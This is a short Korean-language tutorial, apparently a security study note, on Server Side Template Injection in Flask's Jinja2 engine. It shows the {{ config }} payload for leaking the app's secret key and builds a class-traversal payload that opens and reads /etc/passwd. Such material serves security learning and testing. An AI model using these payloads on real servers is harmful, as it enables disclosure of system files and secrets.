



# SSTI(Server Side Template Injection)

## SSTI?   
SSTI(Server Side Template Injection) 취약점은 공격자가 서버측의 기본 템플릿 구문을 이용하여 악성 페이로드를 삽입 한 다음 서버 측에 실행되면서 생기는 취약점이다.   
웹 템플릿 엔진마다 사용되는 페이로드가 다르다.   
<br/>


## SSTI 취약점을 이용한 템플릿 구분   

<br/>


## Flask Jinja2   
Flask의 경우 따로 정의하지 않으면 Jinja2 템플릿을 사용하게 된다.   
만약 사용자가 입력한 값이 템플릿 구문으로 인식하게 할 수 있다면 해당 템플릿 구문을 이용하여 SSTI취약점을 발생시켜 RCE(Remote Code Execute) 취약점으로 연계시킬 수 있다.   


### Flask.config   
기본적으로 Flask의 경우 app.n에 들어가는 대부분의 정보들이 config 클래스에 들어가게 된다.   
{{ config }} 해당 페이로드를 삽입하여 config 정보를 출력하게 만들면 app.secret_key에 들어간 중요한 정보들이 나오게 된다.   
   <br/>

### Payload   
```{{ ''.__class__.__mro__ }}```를 출력해보면 다음과 같은 몇 가지가 나온다.
* <type 'str'>
* <type 'basestring'>
* <type 'object’>    


그 중에서 <type 'object’>  클래스로 들어가 서브 클래스를 출력하면 아래와 같이 object의 서브 클래스들이 출력된다.   
```{{ ''.__class__.__mro__[2].__subclasses__() }}```   <br/>   

<br/>
<br/>   

이들 중에서 본인 환경에서 40번째 클래스를 선택하면 파일 클래스를 찾을 수 있다.   
```{{ ''.__class__.__mro__[2].__subclasses__()[40] }}```-> <type 'file’>   <br/>   

<br/>

<br/>   
이제 여기서 open('/etc/passwd').read() 를 할 경우 파일을 읽을 수 있다.   
<br/><br/>

최종 페이로드   
```{{ ''.__class__.__mro__[2].__subclasses__()[40].open('/etc/passwd').read() }}```


